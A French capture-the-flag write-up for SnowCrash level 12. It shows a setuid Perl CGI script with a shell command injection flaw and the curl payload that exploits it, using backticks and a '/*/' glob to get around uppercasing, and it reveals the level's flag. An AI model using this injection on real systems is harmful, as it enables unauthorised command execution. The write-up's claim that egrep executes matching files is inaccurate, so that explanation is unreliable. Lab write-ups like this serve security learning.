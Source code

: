 # LEVEL 12

- The usual beginning:
```
level12@SnowCrash:~$ ls -l
total 4
-rwsr-sr-x+ 1 flag12 level12 464 Mar  5  2016 level12.pl
```
Il s'agit a nouveau d'un programme `perl` qui contient la chose suivante: \
` cat level12.pl` :
```perl
#!/usr/bin/env perl

use CGI qw{param};
print "Content-type: text/html\n\n";

sub t {
  $nn = $_[1];
  $xx = $_[0];
  $xx =~ tr/a-z/A-Z/;
  $xx =~ s/\s.*//;
  @output = `egrep "^$xx" /tmp/xd 2>&1`;
  foreach $line (@output) {
      ($f, $s) = split(/:/, $line);
      if($s =~ $nn) {
          return 1;
      }
  }
  return 0;
}

sub n {
  if($_[0] == 1) {
      print("..");
  } else {
      print(".");
  }
}

n(t(param("x"), param("y")));
```

- Ce programme utilise la commande [egrep](https://www.geeksforgeeks.org/egrep-command-in-linux-with-examples/) qui cherche un pattern regex dans un fichier et l'execute s'il match ce pattern
- Egrep execute un fichier dont le nom match le pattern `$xx` (ici **en majuscule, sans espace**) \

- On glisse donc la commande `getflag` dans un fichier qui suit ce pattern pour pouvoir `egrep` dessus:

on creer un fichier en lettres majuscules 'HAKERMAN.SH' et '/*/HAKERMAN.sh' pour que '/tmp/HAKERMAN.SH' soit convertit en  '/TMP/HAKERMAN.SH'

```
echo "getflag > /tmp/myprecious" > /tmp/HAKERMAN.SH
chmod +x /tmp/HAKERMAN.SH
curl '127.0.0.1:4646?x="`/*/HAKERMAN.SH`"'
cat /tmp/myprecious
Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr
```

## ⚡ Flag
`g1qKMiRpXf53AWhDaU7FEkczr`

